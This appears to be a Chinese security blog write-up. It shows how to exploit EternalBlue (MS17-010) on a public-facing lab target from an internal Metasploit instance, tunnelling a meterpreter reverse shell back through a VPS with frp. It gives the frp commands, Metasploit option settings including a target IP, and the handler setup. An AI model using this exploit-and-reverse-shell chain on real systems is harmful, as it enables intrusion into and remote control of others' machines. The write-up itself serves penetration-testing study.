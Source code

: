 ![image-20220811151438363](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-d372c4ccffac811b6a04d419f118930e5d864a7b.png)

看我用内网MSF打公网永恒之蓝
===============

> 存在疑问，网查没有，技术一般，重在思路，不喜勿喷
> 
> 正常用msf打永恒之蓝漏洞的过程复现在网上一翻一大堆，不过基本上都是内网的两个虚拟机互打，然后之前我就冒出来个稀奇古怪的想法，假如这台带有永恒之蓝漏洞的服务器在公网上呢，我又不想在公网上装msf，怎么才能用内网msf碰到外网的漏洞呢？下面是我利用内网msf打公网的永恒之蓝的过程。

0x01 frp搭建
==========

首先需要frp搭建隧道，将本地的4444端口，映射到公网VPS的30001端口上，VPS和本地分别下载frp按照如下配置

**本地设置frpc.ini**

![image-20220807134036575](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-65b135eceb56c9e2d38fd96f489c13ec57d8c41a.png)

- `server_port`是公网为了和内网建立frp隧道的端口
- `remote_port`在这里代表要将本地4444端口映射到公网的30001端口上
- `local_ip`注意要写内网IP不要写本地回环地址（127.0.0.1）

**VPS设置frps.ini**

![image-20220807135639843](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-9c12d1bdfc4c15884da8e42ebea29e6f0f5211ed.png)

frps.ini文件配置相对简单些，token对应上就行

- - - - - -

然后本地和VPS分别启动frp

本地
==

./frpc -c ./frpc.ini

VPS
===

./frps -c ./frps.ini

开启后我们访问公网的30001端口就会直接穿到本地的4444上，例如我在本地用python开个http服务

![image-20220807135941343](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-71a78458eaad0ca8b24b5c0b3721e941fd24cf1a.png)

访问公网的30001

![image-20220807140017031](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-3cbf031ed71b903e97dcf2392f3c09acc9fd11dd.png)

至此frp配置完成

- - - - - -

0x02 攻击公网永恒之蓝
=============

首先用在线靶场开个靶机

![image-20220807140304778](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-f19475006dcf275cdaee9c671b97b9a2ff438aff.png)

之后打开msf并加载`msf17-010`攻击载荷

![image-20220807140513506](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-8226946a4cd27b6d12ffa27fefe2cc5cf8af52ed.png)

注意这个载荷默认的payload是`windows/x64/meterpreter/reverse_tcp`这个后续要用到，然后设置配置项

options  
​  
set rhosts 52.81.73.86  
​  
set lhosts VPS地址  
​  
set lport 30001

这个时候先不要run，这里执行攻击是可以不过我们设置的回连地址是VPS地址，端口是frp的那个端口，也就是代表它会穿到内网的4444端口来，但是当我们run时除了执行攻击载荷外，它还有一步就是根据设置的回连的地址和端口监听，也就是在本地监听公网所以自然监听不到，但是如果我们设置监听本地地址确实能监听到，但是回弹shell却弹不回来，这里就很难搞

这时候我们需要在启动一个msf，并且根据上面的默认payload设置本地监听

use exploit/multi/handler  
​  
set payload windows/x64/meterpreter/reverse\_tcp  
​  
set lhost eth0  
​  
run

监听跑起来后再执行ms17-010攻击载荷，结果如下

![image-20220807141805816](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-05afcf08c3b7a2804b5292f3df2062cb9eccddbc.png)

左边的攻击载荷反弹不回来session在预料之中，右边的监听成功接收到session

- - - - - -

技术点没多难，只不过把我自己这个思路记录一下